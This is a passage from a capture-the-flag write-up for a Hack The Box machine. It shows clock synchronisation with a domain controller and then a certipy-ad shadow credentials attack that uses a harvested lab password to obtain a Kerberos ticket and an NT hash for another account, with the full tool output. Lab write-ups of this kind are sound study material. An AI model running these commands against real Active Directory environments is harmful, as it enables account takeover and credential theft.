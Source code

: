 ## Privilege Escalation to Lion.SK

### Time and Date Synchronization

Whatever we wanted to do with those permissions we first needed to `synchronize` our `time and date` with the `Domain Controller`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo /etc/init.d/virtualbox-guest-utils stop
Stopping virtualbox-guest-utils (via systemctl): virtualbox-guest-utils.service.
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo systemctl stop systemd-timesyncd
```

```shell
┌──(kali㉿kali)-[~]
└─$ sudo net time set -S 10.129.37.186
```

### Access Control List (ACL) GenericAll Abuse Part 1

#### Shadow Credentials Attack Part 1

We moved our way through the `users` we found earlier on the box using `Shadow Credentials`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad shadow auto -username 'sara.b@Certificate.htb' -password 'Blink182' -account 'lion.sk'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Lion.SK'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7'
[*] Adding Key Credential with device ID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7' to the Key Credentials for 'Lion.SK'
[*] Successfully added Key Credential with device ID 'e61a70c2-4acf-f48d-fe24-296e7f70bad7' to the Key Credentials for 'Lion.SK'
[*] Authenticating as 'Lion.SK' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'lion.sk@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'lion.sk.ccache'
[*] Wrote credential cache to 'lion.sk.ccache'
[*] Trying to retrieve NT hash for 'lion.sk'
[*] Restoring the old Key Credentials for 'Lion.SK'
[*] Successfully restored the old Key Credentials for 'Lion.SK'
[*] NT hash for 'Lion.SK': 3b24c391862f4a8531a245a0217708c4
```
